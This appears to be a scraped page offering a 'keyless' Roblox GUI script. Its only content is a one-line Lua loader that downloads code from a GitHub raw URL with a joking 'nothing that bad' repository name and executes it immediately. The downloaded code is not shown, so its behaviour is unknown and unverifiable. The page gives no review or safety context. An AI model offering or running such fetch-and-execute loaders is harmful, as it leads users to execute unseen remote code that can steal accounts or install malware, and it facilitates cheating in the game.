KEYLESS Roblox useful gui script 

loadstring(game:HttpGet("https://raw.githubusercontent.com/Gelaxiz/megasecretrepothatdoesnthaveanythingthatbadthisisonlyfortestinglmao/refs/heads/main/script.lua"))()
